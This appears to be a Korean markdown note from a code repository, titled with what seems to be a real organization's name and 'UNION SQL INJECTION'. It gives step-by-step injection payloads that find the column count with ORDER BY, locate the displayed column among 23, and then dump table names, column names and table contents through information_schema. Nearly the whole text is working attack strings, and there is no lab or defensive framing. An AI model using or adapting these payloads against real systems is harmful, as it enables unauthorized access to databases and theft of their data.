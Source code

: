 # shincheonji (UNION SQL INJECTION)

order by: 어떤것으로 정렬 하겠다
--------------------------------------------------------------------------------------------------------------------------------------------------------------------
1에서부터 1씩 늘려가며 컬럼 개수를 알아낸다.
```
aa' order by 1 #
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------
정확히 어떤 컬럼들이 화면에 출력돼는지 확인한다. 만약 컬럼개수가 3개라면 "   aa' union select 1,2,3 #   " 이렇게 한다. 그리고 찍힌 숫자의 자리에 원하는 데이터를 넣을수 있다. 11번이라면 11의 자리의 원하는 데이터를 넣을수 있다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 #
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------
테이블들을 출력한다. 찍힌 숫자가 11번이기 떄문데 11자리에 'table_name'을 넣은것이다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,table_name,12,13,14,15,16,17,18,19,20,21,22,23 from information_schema.tables where table_type='BASE TABLE' #
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------
찾을 테이블의 이름을 넣어서 테이블의 컬럼들을 출력한다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,column_name,12,13,14,15,16,17,18,19,20,21,22,23 from information_schema.columns where table_name='테이블 이름' #
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------
컬럼을 출력한다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,컬럼 이름,12,13,14,15,16,17,18,19,20,21,22,23 from 테이블 이름 #
```
